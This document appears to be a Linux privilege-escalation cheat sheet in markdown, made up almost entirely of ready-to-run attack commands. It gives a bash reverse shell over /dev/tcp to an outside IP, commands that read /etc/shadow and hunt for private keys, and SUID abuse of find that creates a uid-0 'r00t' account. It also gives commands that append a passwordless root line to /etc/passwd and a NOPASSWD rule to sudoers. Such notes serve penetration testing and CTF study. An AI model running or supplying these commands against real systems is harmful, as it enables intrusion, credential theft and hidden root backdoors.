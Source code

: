# Linux Exploitation

## Upgrading Shells

```bash
# python
python -c 'import pty; pty.spawn("/bin/bash")'
# echo
echo os.system('/bin/bash')
# bash
/bin/bash -i 
# environment variables
SHELL=/bin/bash script -q /dev/null
```

## Reverse Shells

```bash
# bash
/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/1337 0>&1'
```

## Enumeration Commands

### Basic Commands
```bash
id
hostname
# check sudo privileges
sudo -l 
# users on system
cat /etc/passwd 
# try for password hashes
cat /etc/shadow
# find
find / -iname "*file*" -print 2>/dev/null
# grep
grep -iR "pattern" . 2>/dev/null
```

### Versions
```bash
# system distribution (os)
lsb_release -a 
cat /etc/issue
# kernal information
uname -a 
cat /proc/version 
```

### Network
```bash
# netstat
netstat -tulip
# ps
ps aux
ps aux | grep root
```

### Searching
(common world writable folders: /dev/shm/, /tmp/, /var/www/)
```bash
# check webpage
ls -lisa /var/www/html
# check config files
ls -lisa /etc/ | grep .conf
# find all suid programs
find /* -user root -perm -4000 -print 2>/dev/null 
# world writable directories
find / -writable -type d 2>/dev/null
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root
# world writable files
find / -perm -2 -type f 2>/dev/null | grep -v "/proc*" 
find / \( -wholename '/home/homedir/*' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -l '{}' ';' 2>/dev/null 
# search for private keys
find / -xdev -type f -print0 | xargs -0 grep -H "BEGIN RSA PRIVATE KEY"
```

## SUID Exploits

### Working with SUID
```bash
# adds suid bit
chmod u+s /bin/executable
# changes path variable
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 
```

### Find
```bash
echo "r00t:password" > /tmp/newpass.txt
sudo find . -name "." -exec useradd r00t -ou 0 -g root -s /bin/bash \;
sudo find . -name "." -exec chpasswd < /tmp/newpass.txt \;
```

## Changing Writable Files to Pwn

```bash
# passwd
echo r00t::0:0:r00t:/root:/bin/bash >> /etc/passwd
# sudoers
echo "r00t ALL=(ALL:ALL) NOPASSWD: ALL" >> /etc/sudoers
```